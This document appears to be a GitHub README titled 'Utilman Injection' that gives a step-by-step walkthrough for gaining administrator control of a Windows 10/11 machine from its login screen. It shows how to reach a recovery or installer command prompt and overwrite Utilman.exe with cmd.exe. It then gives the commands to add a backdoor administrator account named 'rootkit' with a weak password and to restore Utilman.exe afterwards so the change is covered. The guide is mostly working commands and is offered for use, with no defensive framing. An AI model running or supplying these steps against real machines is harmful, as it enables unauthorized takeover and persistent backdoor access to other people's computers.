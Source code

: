 # Utilman Injection
Boot To Root Windows 10/11

To get started you will need access to an administrator command prompt.
You can get this level of access in two main ways:
If the PC has insecure default settings (which many systems do) then you can:
Press Shift + Restart to go to the recovery options.
From there you can select advanced options and then command prompt.
If the system has an administrator user with no password even if this account is disabled you can get an admin cmd through this menu.
If that method doesn't work but you have access to the bios or boot menu then simply boot off USB from a windows 10 installer.
Then press shift + f10 to open a command prompt as administrator.

Next run the following commands to replace utilman with cmd
copy C:\Windows\System32\Utilman.exe C:\Windows\System32\UtilmanBackup.exe
copy C:\Windows\System32\CMD.exe C:\Windows\System32\Utilman.exe
Then restart by closing the install window

From the login screen you can now click the ease of access settings to get an administrator command prompt.
From there it is easy to create a rootkit account with the following commands:
net user /add rootkit "password123"
net localgroup administrators /add rootkit

Finally at the end dont forget to put utilman back by running the following commands:
copy C:\Windows\System32\UtilmanBackup.exe C:\Windows\System32\Utilman.exe
del C:\Windows\System32\UtilmanBackup.exe